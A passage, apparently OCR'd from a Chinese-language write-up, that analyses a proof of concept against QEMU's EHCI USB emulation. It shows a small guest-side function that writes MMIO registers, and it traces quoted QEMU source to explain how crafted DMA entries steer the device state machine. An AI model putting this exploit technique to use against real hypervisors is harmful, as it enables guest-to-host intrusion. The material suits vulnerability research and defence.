 3. set_EHCIState

```c
void set_EHCIState(){
    mmio_write(0x34, virt2phys(dmabuf)); // periodiclistbase
    mmio_write(0x20, USBCMD_RUNSTOP | USBCMD_PSE); // usbcmd
    sleep(1);
}
```

```c
static void ehci_advance_periodic_state(EHCIState *ehci)
	{
	switch(ehci_get_state(ehci, async)) {
	case EST_ACTIVE:
	list = ehci->periodiclistbase & 0xfffff000; 【1】
	list |= ((ehci->frindex & 0x1ff8) >> 1);[2]
	get_dwords(ehci, list, &entry, 1);
	ehci_set_fetch_addr(ehci, async,entry);[3]
	ehci_advance_state(ehci, async);
	break;
...
}

```

根据上文分析，`set_EHCIState`设置了`opregbase.usbcmd`和`opregbase.periodiclistbase`的值。在函数`ehci_work_bh`中，由于设置了`usbcmd=USBCMD_RUNSTOP|USBCMD_PSE`，因此可以进入`ehci_advance_periodic_state`函数。

在`ehci_advance_periodic_state`函数中，经过[1-3]实际上导致，`s→p_fetch_addr = (virt2phys(dmabuf)+4)`，poc中设置了`*(dmabuf+4)=virt2phys(qh)+2`，这是因为在`ehci_advance_state`函数中进行了如下处理：首先进入`EST_FETCHENTRY`分支[4]，设置`echi→state`[5]；当此`state==EST_FETACHQH`时[6]，才能进入`ehci_state_fetchqh`函数，在后者中为`qh`分配了空间[7]。因此，在poc中需要设置`*entry=virt2phys(qh)+2`，才能进入正确分支。

```c
static void ehci_advance_state(EHCIState *ehci, int async)
{
	case EST_FETCHENTRY:[4]
            again = ehci_state_fetchentry(ehci, async);
            break;

        case EST_FETCHQH:[6]
            q = ehci_state_fetchqh(ehci, async);
            if (q != NULL) {
                assert(q->async == async);
                again = 1;
            } else {
                again = 0;
            }
            break;
	case EST_EXECUTE:
            assert(q != NULL);
            again = ehci_state_execute(q);
            if (async) {
                ehci->async_stepdown = 0;
            }
            break;
	...
}
static int ehci_state_fetchentry(EHCIState *ehci, int async)
{
	uint32_t entry = ehci_get_fetch_addr(ehci, async);
	switch (NLPTR_TYPE_GET(entry)) {[5]
	    case NLPTR_TYPE_QH:
	        ehci_set_state(ehci, async, EST_FETCHQH);
	        again = 1;
	        break;
```